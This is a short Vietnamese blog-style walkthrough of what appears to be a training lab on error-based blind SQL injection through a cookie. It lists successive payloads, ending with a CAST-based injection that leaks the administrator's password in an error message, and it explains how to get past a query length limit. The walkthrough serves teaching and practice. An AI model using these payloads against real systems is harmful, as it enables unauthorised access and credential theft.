





Helu các bạn nha
Nay mình sẽ giới thiệu cho các bạn loại bài Blindsql tiếp
Đề bài nó như này

Thì khi mở ra mình vẫn injection và trong cookie :
                                        ' AND 1='1
   và hầu như vẫn hoạt động, tiếp theo đó mình là test thử
                                        'AND (UNION 'a' FROM users WHERE username='administrator') ='a

Đúng như dự đoán thì nó trả về lỗi như này

Sơ sơ qua thì nó bảo là nó không nhận giá trị so sánh là number;
Vậy nên mình nghĩ đến hàm CAST chuyển một giá trị chuỗi sang number
                                        ' AND CAST((SELECT 1) AS int)--
Khi mà mình pick giá trị trên thì nó lại báo

Vấn đề là do nó chỉ type là boolean để so sánh chứ không nhận interger
                                        ' AND 1 = CAST((SELECT 1) AS int) --
Thì hết bảo lỗi có vẻ như mình đi đúng hướng
    Tiếp theo đó thì mình sẽ injection vào csdl
                                        ' AND 1 = CAST((SELECT password FROM users WHERE username ='administrator') AS int) --

Có vẻ như truy vấn bị giới Hạn đến chữ Wh trong WHERE thôi là ở vị trí 95
Nên mình đã thử làm nó ngắn lại bằng cách vứt cái where :v
                                        ' AND 1 = CAST((SELECT password FROM users) AS int) --
Sau một hồi cặm cụi thì mình searching :v
                                        ' || cast((select password from users limit 1) AS INT) --; 
Và điều kiện là bạn phải xóa trackingId đi vì nó check độ dài và dùng || để check

đây là kết quả mà có ai code mà trả ra như này đâu:v
@@ chúc các bạn thành công nha